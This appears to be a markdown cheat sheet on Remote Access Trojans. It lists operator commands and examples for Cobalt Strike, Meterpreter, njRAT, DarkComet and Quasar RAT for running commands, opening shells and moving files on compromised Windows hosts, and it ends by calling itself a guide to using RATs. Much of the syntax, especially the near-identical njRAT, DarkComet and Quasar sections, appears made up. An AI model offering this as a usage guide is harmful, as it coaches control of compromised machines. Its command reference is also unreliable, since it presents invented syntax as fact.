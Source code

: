 Here’s a detailed overview of **Remote Access Trojans (RATs)**, including common commands, arguments, and examples for some popular RATs. RATs are used for remote administration and control of a compromised system.

### **Remote Access Trojans (RATs)**

#### **1. **Cobalt Strike**

**Cobalt Strike** is a commercial penetration testing tool that provides advanced threat emulation capabilities.

- **Beacon Commands:**
  - **Connect to a Beacon:**
    ```bash
    beacon> connect
    ```
  - **Execute Commands:**
    ```bash
    beacon> execute <command>
    ```
  - **Upload/Download Files:**
    ```bash
    beacon> upload <local_path> <remote_path>
    beacon> download <remote_path> <local_path>
    ```
  - **Interact with Services:**
    ```bash
    beacon> portscan <target>
    ```

- **Example:**
  ```bash
  beacon> execute whoami
  beacon> download C:\Windows\System32\calc.exe ./calc.exe
  beacon> upload ./localfile.txt C:\Users\Public\localfile.txt
  ```

#### **2. **Metasploit Framework**

**Metasploit Framework** includes various RAT modules and payloads for remote control.

- **Meterpreter Commands:**
  - **Interact with the Target:**
    ```bash
    meterpreter > sysinfo
    meterpreter > shell
    ```
  - **Upload/Download Files:**
    ```bash
    meterpreter > upload <local_path> <remote_path>
    meterpreter > download <remote_path> <local_path>
    ```
  - **Execute Commands:**
    ```bash
    meterpreter > execute -f <command>
    ```

- **Example:**
  ```bash
  meterpreter > sysinfo
  meterpreter > upload ./file.txt C:\Users\Public\file.txt
  meterpreter > download C:\Windows\System32\cmd.exe ./cmd.exe
  ```

#### **3. **njRAT**

**njRAT** is a simple RAT with various remote control features.

- **Commands:**
  - **Connect to Client:**
    ```bash
    connect <ip_address> <port>
    ```
  - **Execute Commands:**
    ```bash
    execute <command>
    ```
  - **Upload/Download Files:**
    ```bash
    upload <local_path> <remote_path>
    download <remote_path> <local_path>
    ```

- **Example:**
  ```bash
  connect 192.168.1.100 4444
  execute whoami
  upload ./localfile.txt C:\Users\Public\localfile.txt
  download C:\Windows\System32\calc.exe ./calc.exe
  ```

#### **4. **DarkComet**

**DarkComet** is a widely used RAT with many features for remote control.

- **Commands:**
  - **Connect to the Client:**
    ```bash
    connect <ip_address>:<port>
    ```
  - **Execute Commands:**
    ```bash
    execute <command>
    ```
  - **Upload/Download Files:**
    ```bash
    upload <local_path> <remote_path>
    download <remote_path> <local_path>
    ```

- **Example:**
  ```bash
  connect 192.168.1.100:1234
  execute ipconfig
  upload ./localfile.txt C:\Users\Public\localfile.txt
  download C:\Windows\System32\cmd.exe ./cmd.exe
  ```

#### **5. **Quasar RAT**

**Quasar RAT** is an open-source RAT with features for remote control.

- **Commands:**
  - **Connect to the Target:**
    ```bash
    connect <ip_address> <port>
    ```
  - **Execute Commands:**
    ```bash
    execute <command>
    ```
  - **Upload/Download Files:**
    ```bash
    upload <local_path> <remote_path>
    download <remote_path> <local_path>
    ```

- **Example:**
  ```bash
  connect 192.168.1.100 5555
  execute dir
  upload ./localfile.txt C:\Users\Public\localfile.txt
  download C:\Windows\System32\calc.exe ./calc.exe
  ```

### **Summary of Common RAT Commands**

| **RAT**           | **Command**                              | **Description**                                    | **Example**                                      |
|-------------------|------------------------------------------|----------------------------------------------------|--------------------------------------------------|
| **Cobalt Strike** | `beacon> connect`                        | Connect to a Beacon session                        | `beacon> connect`                               |
|                   | `beacon> execute <command>`              | Execute a command on the target                    | `beacon> execute whoami`                        |
|                   | `beacon> upload <local_path> <remote_path>` | Upload a file to the target                        | `beacon> upload ./localfile.txt C:\Users\Public\localfile.txt` |
|                   | `beacon> download <remote_path> <local_path>` | Download a file from the target                    | `beacon> download C:\Windows\System32\calc.exe ./calc.exe` |
| **Metasploit**    | `meterpreter > sysinfo`                  | Display system information                         | `meterpreter > sysinfo`                          |
|                   | `meterpreter > shell`                    | Open a system shell                                | `meterpreter > shell`                           |
|                   | `meterpreter > upload <local_path> <remote_path>` | Upload a file to the target                        | `meterpreter > upload ./file.txt C:\Users\Public\file.txt` |
|                   | `meterpreter > download <remote_path> <local_path>` | Download a file from the target                    | `meterpreter > download C:\Windows\System32\cmd.exe ./cmd.exe` |
| **njRAT**         | `connect <ip_address> <port>`            | Connect to a client                                | `connect 192.168.1.100 4444`                    |
|                   | `execute <command>`                      | Execute a command on the target                    | `execute whoami`                                |
|                   | `upload <local_path> <remote_path>`      | Upload a file to the target                        | `upload ./localfile.txt C:\Users\Public\localfile.txt` |
|                   | `download <remote_path> <local_path>`    | Download a file from the target                    | `download C:\Windows\System32\calc.exe ./calc.exe` |
| **DarkComet**     | `connect <ip_address>:<port>`            | Connect to a client                                | `connect 192.168.1.100:1234`                    |
|                   | `execute <command>`                      | Execute a command on the target                    | `execute ipconfig`                              |
|                   | `upload <local_path> <remote_path>`      | Upload a file to the target                        | `upload ./localfile.txt C:\Users\Public\localfile.txt` |
|                   | `download <remote_path> <local_path>`    | Download a file from the target                    | `download C:\Windows\System32\cmd.exe ./cmd.exe` |
| **Quasar RAT**    | `connect <ip_address> <port>`            | Connect to a client                                | `connect 192.168.1.100 5555`                    |
|                   | `execute <command>`                      | Execute a command on the target                    | `execute dir`                                   |
|                   | `upload <local_path> <remote_path>`      | Upload a file to the target                        | `upload ./localfile.txt C:\Users\Public\localfile.txt` |
|                   | `download <remote_path> <local_path>`    | Download a file from the target                    | `download C:\Windows\System32\calc.exe ./calc.exe` |

This summary provides a guide to using various RATs for remote access and control, including commands for connecting, executing commands, and transferring files.